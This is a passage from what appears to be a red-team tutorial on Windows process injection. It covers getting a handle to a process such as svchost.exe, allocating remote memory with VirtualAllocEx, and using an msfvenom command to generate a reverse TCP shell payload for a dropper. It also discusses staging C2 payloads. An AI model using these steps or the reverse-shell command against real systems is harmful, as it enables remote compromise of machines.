 Now you may ask:
`Why are you utilizing the OpenProcess() API call each time you loop, can't you just compare by valid PID?`

I can, but if I target process like `svchost.exe`, the logic breaks. `svchost.exe` is multi-layered process, it may have more than 20+ instances depending on the system. Usually, the first ones are reserved for the `SYSTEM` user or for any of the service users. If that is the case, simply returning the PID does not work for us, because we would not be able to open the process either way. The code snippet above tries to open handle to the process, and return only if a handle is valid. Which means that if the process is multi-layered like `svchost.exe`, it will try to open every instance of this process until it gets a valid handle. I know that this is not the best code but it works!

### Step 2 - Allocate memory to the remote process

Having a valid handle to a process mean that we can now operate with the process itself. This include allocating / writing / reading remote memory, creating remote threads, changing remote memory protections settings and more. In order to keep things simple we will be using Win32 APIs for that.

Since we now have a valid handle, we need to to allocate remote memory. Usually in Windows, the Win32 APIs that are designed for remote process operations are marked with `Ex`, such as [VirtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex). This API is relatively easy to use, following its signature is straight forward.

```C
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The only thing we lack so far is the arbitrary `dwSize` number, this is the size of bytes for our payload to be execute from the remote process. Let's generate one with `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=9443 -f c
```

Make sure to pay attention to `Payload Size`, in that case it is 460.
![Generating C payload with `msfvenom`](msfvenom.png)

!!!
Keep in mind that if the payload is generated from any C2 framework, the chances are that it will be in MegaBytes (MB), it will be easier to stage it instead of embedding it in the dropper itself.
!!!
